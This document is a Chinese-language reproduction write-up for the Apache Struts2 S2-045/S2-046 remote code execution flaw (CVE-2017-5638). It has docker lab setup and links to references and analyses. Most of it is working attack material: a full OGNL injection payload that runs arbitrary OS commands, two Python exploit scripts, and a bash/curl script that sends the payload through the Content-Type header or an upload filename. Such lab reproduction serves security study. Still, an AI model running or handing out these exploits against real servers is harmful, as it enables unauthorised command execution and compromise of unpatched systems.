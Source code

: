 


<h3 style="color: red"> 漏洞信息</h3>

> S2-045的CVE编号都为`CVE-2017-5638`,S2-045是`Content-Type`值,S2-046是`Content-Length`,同一个问题不同攻击向量.

- [S2-045 公告](https://cwiki.apache.org/confluence/display/WW/S2-045)
- [S2-046 公告](https://cwiki.apache.org/confluence/display/WW/S2-046)
- CVE编号: CVE-2017-5638
- 影响范围: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10
-攻击方法
	- `S2-045`: 攻击者可在上传文件时通过修改`HTTP`请求头中的`Content-Type`值来触发该漏洞,进而执行系统命令
	- `S2-046`: 攻击者使用基于`Jakarta`插件上传文件时,通过修改`Content-Length`头的值,并且在`Content-Disposition`值中添加恶意代码,导致远程代码执行

<hr>

<h2 style="color: red;">S2-045漏洞复现:</h2>

#### 快速S2-045搭建漏洞环境
```bash
docker pull medicean/vulapps:s_struts2_s2-045

docker run -d -p 2045:8080 medicean/vulapps:s_struts2_s2-045

137b7002b07d83b14b736c33634aab7784e6563adeb4d64560897ed9e98f14ba

url: http://192.168.48.145:2045/
```
#### POC
```
%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

![](images/s2045_2.jpg)

#### Exploit

[Apache Struts 2.3.5 < 2.3.31 / 2.5 < 2.5.10 - Remote Code Execution ----Exploit-db](https://www.exploit-db.com/exploits/41570/)

```python 
#!/usr/bin/python
# -*- coding: utf-8 -*-
 
import urllib2
import httplib
 
 
def exploit(url, cmd):
    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += "(#cmd='%s')." % cmd
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
    payload += "(#ros.flush())}"
 
    try:
        headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
        request = urllib2.Request(url, headers=headers)
        page = urllib2.urlopen(request).read()
    except httplib.IncompleteRead, e:
        page = e.partial
 
    print(page)
    return page
 
 
if __name__ == '__main__':
    import sys
    if len(sys.argv) != 3:
        print("[*] struts2_S2-045.py <url> <cmd>")
    else:
        print('[*] CVE: 2017-5638 - Apache Struts2 S2-045')
        url = sys.argv[1]
        cmd = sys.argv[2]
        print("[*] cmd: %s\n" % cmd)
        exploit(url, cmd)

```
![](images/s2045_1.jpg)

<hr>

<h2 style="color: red;"> S2-046漏洞复现:</h2>

#### 快速S2-046搭建漏洞环境
```bash
docker pull medicean/vulapps:s_struts2_s2-046
docker run -d -p 2046:8080 medicean/vulapps:s_struts2_s2-046

ffa071a9c68643f81f2491940ad068f3b4dac06688be8f581b809241c47ebe04

url: http://192.168.48.145:2046/doUpload.action
```

#### Exploit
```bash

root@huang:~# cat struct2046.sh 
#!/bin/bash
 
url=$1
cmd=$2
shift
shift
 
boundary="---------------------------735323031399963166993862150"
content_type="multipart/form-data; boundary=$boundary"
payload=$(echo "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"$cmd"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}")
 
printf -- "--$boundary\r\nContent-Disposition: form-data; name=\"foo\"; filename=\"%s\0b\"\r\nContent-Type: text/plain\r\n\r\nx\r\n--$boundary--\r\n\r\n" "$payload" | curl "$url" -H "Content-Type: $content_type" -H "Expect: " -H "Connection: close" --data-binary @- $@

``` 
![](images/s2046_1.jpg)

使用Python改写exp:
```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

import urllib2
import httplib


def exploit(url, cmd):
    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += "(#cmd='%s')." % cmd
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
    payload += "(#ros.flush())}"

    try:
        boundary = "---------------------------735323031399963166993862150"
        headers = {'Content-Type': 'multipart/form-data; boundary=' + boundary + ''}
        data = "--" + boundary + "\r\nContent-Disposition: form-data; name=\"foo\"; filename=\"" + payload + "\0b\"\r\nContent-Type: text/plain\r\n\r\nx\r\n--" + boundary + "--"
        request = urllib2.Request(url, headers=headers, data=data)
        page = urllib2.urlopen(request).read()
    except httplib.IncompleteRead, e:
        page = e.partial

    print(page)
    return page

if __name__ == '__main__':
    import sys
    if len(sys.argv) != 3:
        print("[*] struts2_S2-046.py <url> <cmd>")
    else:
        print('[*] CVE: 2017-5638 - Apache Struts2 S2-046')
        url = sys.argv[1]
        cmd = sys.argv[2]
        print("[*] cmd: %s\n" % cmd)
        exploit(url, cmd)
```
![](images/s2046_2.jpg)

<b style="color: red">Notes</b>:

使用更方便的`requests`库代替`urllib2` 接收和发送二进制数据会报`requests.exceptions.ChunkedEncodingError`错误,有时间可以参考 [python requests接收chunked编码问题](http://blog.csdn.net/wangzuxi/article/details/40377467) 以及 [Source code for requests.exceptions](http://docs.python-requests.org/en/master/_modules/requests/exceptions/) 看看能否可以解决

相关链接:

- [S2-045 漏洞分析 ---- seebug_paper](https://paper.seebug.org/247/)
- [Struts 2远程命令执行漏洞S2-046 ---- mottoin](http://www.mottoin.com/98591.html)
- [【重大漏洞预警】Struts 2 远程代码执行漏洞(s2-045\s2-046) (含](http://bobao.360.cn/learning/detail/3571.html)
- [S2-046漏洞调试及初步分析 ---- 阿里先知社区](https://xianzhi.aliyun.com/forum/topic/221/)